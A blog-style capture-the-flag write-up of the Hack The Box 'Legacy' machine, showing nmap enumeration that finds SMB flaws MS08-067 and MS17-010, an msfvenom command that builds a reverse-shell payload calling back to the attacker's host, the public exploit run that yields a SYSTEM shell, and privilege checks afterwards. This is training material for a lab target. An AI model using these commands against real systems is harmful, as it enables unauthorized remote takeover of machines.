 Title: HTB Legacy box writeup
Tags: oscp, htb
Summary: Quite short walkthrough for this little box
Date: 31/08/2020 15:30
Status: published

Starting series of writeups for a list of machines compiled by TJNull in his well-known 
[blog post](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines).

# Enumeration
Let's dig into this box. We are not restricted with traffic amount or something like that, so I just spinned up the full nmap scan with `-sS`:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:28:33 2020 as: nmap -sS -p- -oA nmap/nmap-ss-all 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE
    139/tcp  open   netbios-ssn
    445/tcp  open   microsoft-ds
    3389/tcp closed ms-wbt-server

    # Nmap done at Wed Aug 26 12:31:39 2020 -- 1 IP address (1 host up) scanned in 186.30 seconds

</pre>
Unfortunately, SMB server does not allow anonymous logon since `smbclient -N -L \\\\10.10.10.4\\` fails.

Not much ports open there, seems to be only SMB server available at the time. Let's try to dig some more with `-A` and `-sV` on discovered ports:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:35:32 2020 as: nmap -A -T4 -sV -O -p139,445 -oA nmap/nmap-AT4sVO-open 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.18s latency).

    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
    OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3 
    cpe:/o:microsoft:windows_server_2003 
    Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), 
    Microsoft Windows XP SP2 or Windows Small Business Server 2003 (90%), Microsoft Windows XP SP2 (89%), 
    Microsoft Windows Server 2003 (87%), Microsoft Windows XP SP2 or SP3 (87%), Microsoft Windows XP SP3 (87%), 
    Microsoft Windows 2000 SP4 (86%), Microsoft Windows XP Professional SP2 (86%), Microsoft Windows XP Professional SP3 (86%), 
    Microsoft Windows XP SP2 or Windows Server 2003 (86%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: -4h27m15s, deviation: 2h07m16s, median: -5h57m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3d:03 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2020-08-26T12:38:29+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

    TRACEROUTE (using port 139/tcp)
    HOP RTT       ADDRESS
    1   120.17 ms 10.10.14.1
    2   290.33 ms legacy.htb (10.10.10.4)

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Aug 26 12:36:36 2020 -- 1 IP address (1 host up) scanned in 63.88 seconds

</pre>
Well it's really seems to be _legacy_ since nmap suggests that this box running Windows XP. Though these results may not be accurate, `smb-os-discovery` also
suggests so, I'll take a mental note about this - it might be vulnerable to some antediluvian vulnerabilities.  
Nmap has some more interesting scripts for SMB, worth trying to scan using them:
<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:49:00 2020 as: nmap -p445,139 --script=smb-vuln* -oA nmap/smb-vuln-mass 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).

    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    # Nmap done at Wed Aug 26 12:49:07 2020 -- 1 IP address (1 host up) scanned in 7.25 seconds

</pre>
Gotcha! Notice that it's 'likely vulnerable' to CVE-2008-4250 (MS08-067). Pretty old vulnerability, this looks consonant
with box name. 

# Exploitation
There is some exploit code for MS08-67 in [github](https://github.com/andyacer/ms08_067.git). Looks neat, without pranks or `rm -rf` stuff within.
I've just generated payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 EXITFUNC=thread -f c -o shell.c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
and put that shellcode instead of the one that was in the script already. Initially I forgot to set badchars and it was not working for that reason, but
eventually I read the exploit script and notices some examples. Lesson learned - do not hurry! I must have thought that this exploit is broken or something
if I didn't read carefully.  
Exploit script had multiple choices for targets, I decided to start from end and used `./ms08_067_2018.py 10.10.10.4 7 445` - bullseye! Shell popped out on my 
`multi/handler` running.

# Post-exploitation
As per `systeminfo` this box is indeed running Windows XP SP3. Unfortunately it doesn't have `whoami` in the command line shell and `echo %USERNAME%` didn't work
for some reason (emitted nothing). So I had to determine current user by indirect methods. First, I suggest that since SMB server service got exploited, it's likely
a SYSTEM shell. Two little commands to prove that hypothesis. Who wants to go directly for the root flag? That's boring :)  
First command is `set`, which will show us some current envars:

![set output](/cstatic/htb-legacy/set.png)

Take a look at `USERPROFILE` envar - it shows us a special folder.

Second command is `reg query "HKU\S-1-5-19"` which tries to query some keys that only administrator could get.

![reg query output](/cstatic/htb-legacy/hku.png)

We indeed having at least administrative rights on this box. Safe to go ahead and grab root flag:

![root flag](/cstatic/htb-legacy/flag.png)
